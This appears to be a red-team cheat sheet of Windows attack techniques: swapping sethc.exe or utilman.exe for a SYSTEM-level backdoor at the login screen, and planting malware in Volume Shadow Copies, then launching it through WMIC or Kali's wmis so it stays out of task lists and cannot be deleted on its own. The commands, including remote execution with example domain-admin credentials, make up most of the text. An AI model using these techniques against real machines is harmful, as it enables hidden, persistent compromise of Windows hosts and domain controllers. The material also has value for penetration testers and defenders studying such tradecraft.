 ##### SETHC/UTILMAN Replacement

Replace these binaries, may require a reboot to take effect
```
    %WINDIR%\System32\sethc.exe
    %WINDIR%\System32\utilman.exe
```

Hit shift 5 times = sethc.exe run by SYSTEM
Windows key + U = utilman.exe run by SYSTEM


##### Volume Shadow Copy (Restore Points)

Windows service that's constantly running - takes snapshots of system directories

Drop Malware -> Create VSC (ReadOnly) -> Delete Malware -> Use WMIC to run VSC of malware

Registry Key to Disable Volume Shadow Copy
```
    HKLM\System\CurrentControlSet\Control\BackupRestore\FilesNotToSnapshot
```

##### VSSADMIN - native windows utility
    
vssadmin create command only applies to Server OS (Win2k3,2008)  
```
    vssadmin list shadows  
    vssadmin create shadow /for=C:  
    wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin create shadow /for=C  
    mklink /D C:\VscAccess \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy1  
    copy \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy4\path\to\some\file e:\files  
```

##### Use WMIC process call to run an .exe from a Volume Shadow Copy
```
    wmic process call create \\.\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\evil.exe
```

This process will not show the imagename (executable filename) or commandline parameters in the task list.
The file cannot be individually deleted from the shadow copy once created. The entire shadow copy must be deleted to remove it.  
```
    root@kali:~# wmis -U DOMAIN\domainadminsvc%domainadminsvc123 //ServerName \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\evil.exe  
    NTSTATUS: NT_STATUS_OK - Success
```

In Kali Linux you could use the WMIS package to do the same thing:
```
    wmis -U DOMAIN\domainadminsvc%domainadminsvc123 //ServerName \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\evil.exe  
    NTSTATUS: NT_STATUS_OK - Success
```
